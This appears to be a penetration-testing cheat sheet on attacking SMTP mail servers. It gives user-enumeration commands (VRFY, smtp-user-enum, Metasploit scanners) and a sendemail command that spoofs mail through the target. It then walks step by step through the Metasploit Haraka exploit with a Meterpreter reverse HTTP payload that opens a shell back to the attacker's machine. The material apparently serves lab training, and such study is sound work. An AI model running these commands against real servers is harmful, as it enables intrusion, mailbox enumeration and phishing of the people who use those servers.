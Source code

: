 # SMTP

**SMTP (Simple Mail Transfer Protocol)**
**Description**: SMTP is the standard protocol used to send emails from a client to a mail server or between mail servers. It operates at the application layer of the OSI model.  
**Ports**: 25 (default, unencrypted, often blocked by ISPs), 587 (submission, supports STARTTLS encryption), 465 (deprecated, but still used for SMTP over SSL/TLS)
**Known Vulnerabilities**: Server sends mail without auth — can be abused for spam, RCPT TO command used to check if user exists, Weak/no authentication, info disclosure in banners, Weak SMTP login creds

<br>

# SMTP Enumeration

```shell
nmap -sV --script banner <target_IP>
# Grabs banner information from open ports to help identify running services and versions.

nc <target_IP> 25
# Opens a raw TCP connection to the SMTP service on port 25.

VRFY admin@openmailbox.xyz
VRFY commander@openmailbox.xyz
# Checks if the specified email addresses exist on the SMTP server.

telnet <target_IP> 25
# Connects to the SMTP service using Telnet for manual interaction.

HELO attacker.xyz
EHLO attacker.xyz
# Initiates an SMTP session with the target mail server; EHLO gives extended capabilities.

smtp-user-enum -U /usr/share/commix/src/txt/usernames.txt -t <target_IP>
# Enumerates valid SMTP users on the target using a given username list.

use auxiliary/scanner/smtp/smtp_version
# Identifies the SMTP server software and version.

use auxiliary/scanner/smtp/smtp_enum
# Attempts to enumerate valid users via SMTP VRFY, EXPN, or RCPT commands.

sendemail -f admin@attacker.xyz -t root@openmailbox.xyz -s <target_IP> -u Fakemail -m "Hi root, a fake from admin" -o tls=no
# Sends a spoofed email via the target SMTP server without TLS; useful for testing open relays or phishing simulations.
```

<br>

# Exploitation

```shell
# Linux exploitation
# Load the Haraka SMTP Exploit module in Metasploit
use exploit/linux/smtp/haraka  # (haraka < v2.8.9 is vulnerable)
# Set the remote host (target SMTP server) that we want to exploit
set RHOST <target_IP> 
# Set the local server port for handling incoming connections (Default is 9898)
# This is necessary for receiving the reverse connection from the exploited target.
set SRVPORT 9898  
# Specify the target email address to send the malicious payload
# In this case, "root@attackdefense.test" is the intended recipient on the target SMTP server.
set email_to root@attackdefense.test  
# Select the payload to be used in the exploit
# We are using a Meterpreter reverse HTTP shell for a stable connection.
set payload linux/x64/meterpreter_reverse_http  
# Define the local host (our attack machine) that will receive the reverse shell connection
set LHOST <kali_IP>
# Execute the exploit and attempt to gain access to the target system
exploit  

# Ignore any error you see, as you have already gained the meterpreter session. To list active sessions, run the following command:
sessions
sessions -i 1
```
